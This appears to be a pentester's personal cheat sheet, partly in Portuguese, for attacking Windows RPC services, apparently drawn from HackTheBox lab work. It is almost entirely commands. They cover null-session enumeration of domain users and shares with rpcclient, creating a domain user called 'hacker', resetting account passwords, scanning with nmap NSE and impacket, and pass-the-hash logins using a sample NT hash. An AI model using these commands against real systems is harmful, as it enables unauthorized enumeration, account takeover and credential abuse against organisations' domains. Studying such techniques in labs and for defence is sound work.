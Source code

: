 RPC
========================
RPC 139/445

    srvinfo
    querydominfo
    
    enumdomusers
    
    queryusergroups
    
    enumdomgroups

## Criar usuario vi RPC

    createdomuser hacker

## Alterar senha de usuário

    setuserinfo2 hacker 24 Password@1
    #  a opção 23 acaba sendo mais interessante para manter as coisas mais simples
    setuserinfo audit2020 23 P@ssword!

    enumdomusers

RPC (111/tcp, 135/tcp)
msrpc/rpcbind


Version detection + NSE scripts

    nmap -Pn -sV -p $port --script=banner,msrpc-enum,rpc-grind,rpcinfo -oN tcp_port_rpc_nmap.txt <hostname>  

impacket

    impacket-rpcmap -brute-uuids -brute-opnums ncacn_ip_tcp:<hostname>
    
 
    impacket-rpcdump <hostname>


rpcinfo

List all registered RPC programs

    rpcinfo -p <hostname>    

Provide compact results

    rpcinfo -s <hostname>

Null session

Aqui um equívocona questão do rpcclient. Este client utiliza das portas 139 e 445 para comunicação.

    rpcclient -U "" -N <hostname>
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
 
## Pass the hash


Tem uma forma de realizar o pass the hash via rpcclient. Consideeree o comando:

    rpcclient --pw-nt-hash -U domain/user <hostname>
    
Ex.

    rpcclient --pw-nt-hash -U htb.local/henry.vinson apt.htb.local
    Password for [HTB.LOCAL\henry.vinson]: 

Aqui é necessário informar o nt hash do usuário!!! Assim funcionará corretamente o pass the hash.

Outra opção seria:

    pth-rpcclient -U htb.local/henry.vinson%00000000000000000000000000000000:e53d87d42adaa3ca32bdb34a876cbffb //apt.htb.local